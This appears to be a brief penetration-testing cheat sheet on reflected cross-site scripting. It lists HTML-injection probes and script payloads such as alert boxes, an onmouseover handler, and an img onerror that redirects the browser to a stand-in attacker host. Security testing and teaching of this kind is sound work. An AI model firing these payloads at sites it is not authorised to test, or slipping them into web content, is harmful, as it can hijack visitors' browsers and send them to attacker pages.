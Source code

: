 # Reflected XSS Testing Guide

This guide provides examples and techniques for identifying and exploiting **Reflected Cross-Site Scripting (XSS)** vulnerabilities during penetration testing.

---

## 🔄 Reflected XSS

Reflected XSS occurs when user input is **immediately echoed** back by the server without proper sanitization. It does **not get stored** on the server, and works when a victim clicks a **malicious link**.

---

### 🧪 HTML Injection Test

```html
<!-- Injects HTML to test for reflected XSS -->
"><h1>test123</h1>
```
This test checks if the application reflects user input as raw HTML, potentially leading to script injection.

---

### 🧨 XSS Payload Examples

```html
<script>alert(1)</script> <!-- Alert box -->
<script>print()</script> <!-- Print the page -->
<script>prompt('Hello')</script> <!-- Prompt box -->
<img src=x onmouseover=alert('xss')> <!-- Triggers alert on hover -->
```

---

### 💡 Different Injection Approaches

#### ✅ Combine HTML + Script Injection
```html
"><u>test123<script>alert('basic-xss')</script>
"><u>test123<script>alert('basic-xss');//</script>
```

#### 🔗 HTML Injection via Links
```html
<a href="https://www.example.com">test123</a>
<img src="x" onerror="window.location.href='https://attacker-website/'">
<script>alert(window.location);</script> <!-- Alert full URL -->
<script>window.location.href='https://www.google.com';</script>
```
